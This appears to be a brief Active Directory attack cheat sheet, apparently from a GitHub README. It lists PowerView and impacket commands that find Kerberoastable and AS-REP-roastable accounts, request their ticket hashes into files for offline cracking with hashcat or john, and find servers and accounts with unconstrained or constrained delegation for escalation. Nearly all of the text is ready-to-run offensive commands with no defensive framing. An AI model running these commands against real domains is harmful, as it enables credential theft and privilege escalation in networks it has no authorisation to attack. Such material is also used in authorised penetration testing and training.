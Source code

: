 

1. Searching for Kerberoastable accounts  with PowerView : 
```powershell
Get-DomainUser -SPN | select name,serviceprincipalname
```


2. Searching for kerberoastable accounts with impacket : 
```python
impacket-GetUserSPNs  <domain_name>/<domain_user>:<domain_user_password> -request  -outputfile <output_TGSs_file>
```


3. searching for ASREPRoastable accounts with PowerView:
```powershell
Get-DomainUser -PreauthNotRequired | select name
```


4. Searching for ASREPRoastable accounts using impacket : 
```python
impacket-GetNPUsers <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]>
```


5. Looking for Servers with Unconstrained delegation enabled, if it is we have admin on the server:
```powershell
Get-DomainComputer -Unconstrained
```


6. Look for users or computers with Constrained Delegation,  If available  and you have user/computer hash, access :
```powershell
Get-DomainUser -TrustedToAuth | select userprincipalname
Get-DomainComputer -TrustedToAuth | select name,msds-all
```




